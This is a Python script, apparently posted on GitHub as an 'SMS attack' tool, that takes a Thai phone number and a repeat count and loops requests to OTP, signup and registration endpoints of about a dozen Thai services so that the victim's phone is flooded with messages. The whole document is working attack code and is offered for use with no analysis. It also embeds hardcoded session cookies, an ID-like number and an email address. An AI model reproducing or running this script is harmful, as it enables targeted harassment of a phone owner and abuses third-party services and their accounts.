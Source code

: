 import requests
import os
os.system("clear")
print("""
██████╗  █████╗ ██╗      █████╗ ██╗     ██╗ ██████╗ ██╗  ██╗████████╗
██╔══██╗██╔══██╗██║     ██╔══██╗██║     ██║██╔════╝ ██║  ██║╚══██╔══╝
██████╔╝███████║██║     ███████║██║     ██║██║  ███╗███████║   ██║   
██╔═══╝ ██╔══██║██║     ██╔══██║██║     ██║██║   ██║██╔══██║   ██║   
██║     ██║  ██║███████╗██║  ██║███████╗██║╚██████╔╝██║  ██║   ██║   
╚═╝     ╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝╚══════╝╚═╝ ╚═════╝ ╚═╝  ╚═╝   ╚═╝   
                                                                     """)
print("\033[DC:1999&palalight by. Lucifer.pl#1999")
from requests import get
from requests import Session
from requests import post,Session
from threading import Thread
import colorama
phone = input("Number:")
num = int(input("จำนวนsms:"))
for i in range(num):
    requests.post("https://api.zaapi.co/api/store/auth/otp/login",json={"phoneNumber":f"+66{phone[1:]}","namespace":"zaapi-buyers"},headers={"user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36"})
    print("\033[91m[+]!smsAttack")
    requests.post("https://topping.truemoveh.com/api/get_request_otp",data={"mobile_number": phone})
    print("\033[91m[+]!smsAttack")
    requests.post('https://www.sso.go.th/wpr/MEM/terminal/ajax_send_otp',headers = {"User-Agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","Content-Type": "application/x-www-form-urlencoded; charset=UTF-8","X-Requested-With": "XMLHttpRequest","Cookie": "sso_local_storeci_sessions=KHj9a18RowgHYWbh71T2%2FDFAcuC2%2FQaJkguD3MQ1eh%2FlwrUXvpAjJgrm6QKAja4oe7rglht%2BzO6oqblJ4EMJF4pqnY%2BGtR%2F0RzIFGN0Suh1DJVRCMPpP8QtZsF5yDyw6ibCMf2HXs95LvAMi7KUkIeaWkSahmh5f%2F3%2FqcOQ2OW5yakrMGA1mJ5upBZiUdEYNmxUAljcqrg7P3L%2BGAXxxC2u1bO09Oz4qf4ZV9ShO0gz5p5CbkE7VxIq1KUrEavn9Y%2BarQmsh1qIIc51uvCev1U1uyXfC%2F9U7uRl7x%2FVYZYT2pkLd3Q7qnZoSNBL8y9wge8Lt7grySdVLFhw9HB68dTSiOm1K04QhdrprI7EsTLWDHTgYmgyTQDuz63YjHsH5MUVanlfBISU1WXmRTXMKbUjlcl0LPPYUR9KWzrVL7sXcrCX%2FfUwLJIU%2F7MTtDYUx39y1CAREM%2F8dw7AEjcJAOA%3D%3D684b65b9b9dc33a3380c5b121b6c2b3ecb6f1bec; PHPSESSID=1s2rdo0664qpg4oteil3hhn3v2; TS01ac2b25=01584aa399fbfcc6474d383fdc1405e05eaa529fa33e596e5189664eb7dfefe57b927d8801ad40fba49f0adec4ce717dd5eabf08d7080e2b85f34368a92a47e71ef07861a287c40da15c0688649509d7f97eb2c293; _ga=GA1.3.1824294570.1636876684; _gid=GA1.3.1832635291.1636876684"},data=f"dCard=1358231116147&Mobile={phone}&password=098098Az&repassword=098098Az&perPrefix=Mr.&cn=Dhdhhs&sn=Vssbsh&perBirthday=5&perBirthmonth=5&perBirthyear=2545&Email=nickytom5879%40gmail.com&otp_type=OTP&otpvalue=&messageId=REGISTER")
    print("\033[91m[+]!smsAttack")
    requests.get(f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")
    print("\033[91m[+]!smsAttack")
    requests.post("https://queenclub88.com/api/register/phone",data={" phone":phone})
    print("\033[91m[+]!smsAttack")
    requests.post("https://www.monomax.me/api/v2/signup/telno",json ={"password":"12345678+","telno": phone})
    print("\033[91m[+]!smsAttack")
    requests.post("https://api2.1112.com/api/v1/otp/create",json={"phonenumber":phone,

        "language": "th"},headers={"accept": "application/json, text/plain, /",

       "user-agent": "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"})
    print("\033[91m[+]!smsAttack")
    requests.post("https://cognito-idp.ap-southeast-1.amazonaws.com/",headers={"user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/x-amz-json-1.1","x-amz-target": "AWSCognitoIdentityProviderService.SignUp","x-amz-user-agent": "aws-amplify/0.1.x js","referer": "https://www.bugaboo.tv/members/signup/phone"},json={"ClientId":"6g47av6ddfcvi06v4l186c16d6","Username":f"+66{phone[1:]}","Password":"098098Az","UserAttributes":[{"Name":"name","Value":"Dbdh"},{"Name":"birthdate","Value":"2005-01-01"},{"Name":"gender","Value":"Male"},{"Name":"phone_number","Value":f"+66{phone[1:]}"},{"Name":"custom:phone_country_code","Value":"+66"},{"Name":"custom:is_agreement","Value":"true"},{"Name":"custom:allow_consent","Value":"true"},{"Name":"custom:allow_person_info","Value":"true"}],"ValidationData":[]})
    print("\033[91m[+]!smsAttack")
    requests.post("https://cognito-idp.ap-southeast-1.amazonaws.com/",headers={"cache-control": "max-age=0","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/x-amz-json-1.1","x-amz-target": "AWSCognitoIdentityProviderService.ResendConfirmationCode","x-amz-user-agent": "aws-amplify/0.1.x js","referer": "https://www.bugaboo.tv/members/resetpass/phone"},json={"ClientId":"6g47av6ddfcvi06v4l186c16d6","Username":f"+66{phone[1:]}"})
    print("\033[91m[+]!smsAttack")
    requests.post("https://topping.truemoveh.com/api/get_request_otp", data=f"mobile_number={phone}",headers={
    "Accept": "application/json, text/plain, /",
    "User-Agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded",
    "Referer": "https://topping.truemoveh.com/otp?callback=/campaign/104",
    "Cookie": "_ga=GA1.2.1205060554.1640098569; _gcl_au=1.1.1987856152.1640098570; wisepops=%7B%22csd%22%3A1%2C%22popups%22%3A%7B%7D%2C%22sub%22%3A0%2C%22ucrn%22%3A57%2C%22cid%22%3A%2237257%22%2C%22v%22%3A4%2C%22bandit%22%3A%7B%22recos%22%3A%7B%7D%7D%7D; wisepops_props=%7B%22userType%22%3A%22non-true%22%7D; _fbp=fb.1.1640098573194.360235747; wisp-https%3A%2F%2Fapp.getwisp.co-Ly7y=88ce9a24-a734-4ee0-a698-20f8eddb4942; _gac_UA-34289891-14=1.1640601367.Cj0KCQiA5aWOBhDMARIsAIXLlkfb9M64-nkR8u0vdLiqqAhHzV1TK-wuYhvA4nvc76GLMd_LvbDYizMaAruSEALw_wcB; ci_session=dbskqg6a8lqknf9n1cep0jb5vrrhkqdi; AWSELB=87C963610CC5C30592B0F71CAEE836AADF65AFF7868D84BE668BFDE38423D810F8497FAC88813163C52320060AF1A0D59D6D0AECF99D0389471FA83C1B90863201109E903015CCAF2CCBA3F11A5EDD799554400EE1; _gid=GA1.2.1638141276.1641466031; _gac_UA-41231050-25=1.1641466031.Cj0KCQiAw9qOBhC-ARIsAG-rdn5KaPC2N06d1nss7arDQn6S0_lOmvX71l8LKwV__iZpWisXEem-EP8aAjF2EALw_wcB; _gat=1; _gcl_aw=GCL.1641466031.Cj0KCQiAw9qOBhC-ARIsAG-rdn5KaPC2N06d1nss7arDQn6S0_lOmvX71l8LKwV__iZpWisXEem-EP8aAjF2EALw_wcB; _gcl_dc=GCL.1641466031.Cj0KCQiAw9qOBhC-ARIsAG-rdn5KaPC2N06d1nss7arDQn6S0_lOmvX71l8LKwV__iZpWisXEem-EP8aAjF2EALw_wcB; _gat_UA-41231050-25=1; wisepops_visits=%5B%222022-01-06T10%3A47%3A11.626Z%22%2C%222022-01-04T16%3A54%3A03.887Z%22%2C%222021-12-28T10%3A38%3A18.612Z%22%2C%222021-12-28T10%3A38%3A04.394Z%22%2C%222021-12-28T10%3A37%3A40.387Z%22%2C%222021-12-27T03%3A47%3A11.187Z%22%2C%222021-12-25T12%3A27%3A55.196Z%22%2C%222021-12-23T17%3A48%3A39.146Z%22%2C%222021-12-21T17%3A56%3A55.678Z%22%2C%222021-12-21T15%3A06%3A46.971Z%22%5D; wisepops_session=%7B%22arrivalOnSite%22%3A%222022-01-06T10%3A47%3A11.626Z%22%2C%22mtime%22%3A1641466036863%2C%22pageviews%22%3A2%2C%22popups%22%3A%7B%7D%2C%22bars%22%3A%7B%7D%2C%22countdowns%22%3A%7B%7D%2C%22src%22%3A%22https%3A%2F%2Fwww.google.com%2F%22%2C%22utm%22%3A%7B%22gclid%22%3A%22yes%22%7D%2C%22testIp%22%3Anull%7D"})
    print("[+]!smsAttack")
    requests.post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP", json={"on":{"value": phone,"country":"66"},"type":"mobile"})
    print ("[+]!smsAttack")
    requests.post("https://m.lavagame168.com/api/register-otp",headers={"x-exp-signature": "5ffc0caa4d603200124e4eb1","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","referer": "https://m.lavagame168.com/dashboard/login"},json={"brands_id":"5ffc0caa4d603200124e4eb1","agent_register":"5ffc0d5cdcd4f30012aec3d9","tel": phone})
    print ("[+]!smsAttack")
    requests.post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP",json={
  "on": {
    "value": phone,
    "country": "66"
  },
  "type": "mobile"
},headers={"accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 11; V2043) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Mobile Safari/537.36","content-type":"application/json;charset=UTF-8"})
print ("***")


